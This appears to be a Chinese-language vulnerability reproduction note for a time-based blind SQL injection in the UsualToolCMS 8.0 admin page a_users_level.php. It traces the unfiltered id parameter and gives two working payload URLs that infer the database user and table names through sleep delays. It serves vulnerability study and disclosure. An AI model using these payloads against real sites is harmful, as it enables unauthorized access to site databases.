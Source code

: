 UsualToolcms 8.0 后台盲注
=========================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

### 漏洞分析

./cmsadmin/a\_users\_level.php第19行和第26行，id参数可控

![](./.resource/UsualToolcms8.0a_users_level.php后台盲注/media/rId25.png)

从get处获取id参数，id存在无任何过滤，当postt
id时，通过sqlcheck函数进行过滤，来到文件./class/UsualToolCMS\_INC.php第33行，将(\',\\,\",null)转义，34行调用sqlchecks函数，比没过滤sql，然而a\_users\_level.php第19行id不是字符

![](./.resource/UsualToolcms8.0a_users_level.php后台盲注/media/rId26.png)

### 复现

可以利用时间盲注来进行sql注入攻击，payload如下：

    a.当前数据库：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr(user(),1,1))=114,sleep(6),1)
    b.表：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>30,sleep(6),1)

![](./.resource/UsualToolcms8.0a_users_level.php后台盲注/media/rId28.png)

时间盲注验证脚本

![](./.resource/UsualToolcms8.0a_users_level.php后台盲注/media/rId29.png)

image
